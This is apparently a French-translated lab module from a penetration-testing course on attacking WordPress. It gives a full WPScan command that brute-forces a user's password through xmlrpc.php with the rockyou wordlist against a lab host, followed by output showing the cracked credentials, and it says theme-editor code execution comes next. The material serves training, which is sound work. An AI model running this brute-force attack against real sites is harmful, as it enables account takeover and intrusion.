 Attaquer WordPress
===================

* * * * *

Nous avons confirmé que le site Web de l'entreprise fonctionne sur WordPress et avons énuméré la version et les plugins installés. Cherchons maintenant des chemins d'attaque et essayons d'accéder au réseau interne.

Il existe plusieurs façons d'abuser de la `fonctionnalité intégrée` pour attaquer une installation WordPress. Nous aborderons le brute forcing de connexion sur la page `wp-login.php` et l'exécution de code à distance via l'éditeur de thème. Ces deux tactiques s'appuient l'une sur l'autre car nous devons d'abord obtenir des informations d'identification valides pour qu'un utilisateur de niveau administrateur se connecte au back-end WordPress et modifie un thème.

* * * * *

Se connecter
----------------

WPScan peut être utilisé pour forcer brutalement les noms d'utilisateur et les mots de passe. Le rapport d'analyse de la section précédente a renvoyé deux utilisateurs enregistrés sur le site Web (admin et john). L'outil utilise deux types d'attaques par force brute de connexion, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) et wp-login. La méthode `wp-login` tentera de forcer brutalement la page de connexion WordPress standard, tandis que la méthode `xmlrpc` utilise l'API WordPress pour effectuer des tentatives de connexion via `/xmlrpc.php`. La méthode `xmlrpc` est préférée car elle est plus rapide.

```
dsgsec@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL : http://blog.inlanefreight.local/ [10.129.42.195]
[+] Début : mer 25 août 11:56:23 2021

<SNIP>

[+] Effectuer une attaque par mot de passe sur Xmlrpc contre 1 utilisateur/s
[SUCCÈS] - Jean / firebird1
Essayer john / bettyboop Heure : 00:00:13 < > (660 / 14345052) 0,00% ETA : ??:??:??

[!] Combinaisons valides trouvées :
  | Nom d'utilisateur : john, mot de passe : firebird1

[!] Aucun jeton d'API WPVulnDB n'a été fourni, par conséquent, les données de vulnérabilité n'ont pas été générées.
[!] Vous pouvez obtenir un jeton API gratuit avec 50 requêtes quotidiennes en vous inscrivant sur https://wpvulndb.com/users/sign_up

[+] Terminé : mer 25 août 11:56:46 2021
[+] Demandes effectuées : 799
[+] Requêtes mises en cache : 39
[+] Données envoyées : 373,152 Ko
[+] Données reçues : 448 799 Ko
[+] Mémoire utilisée : 221 Mo

[+] Temps écoulé : 00:00:23

```
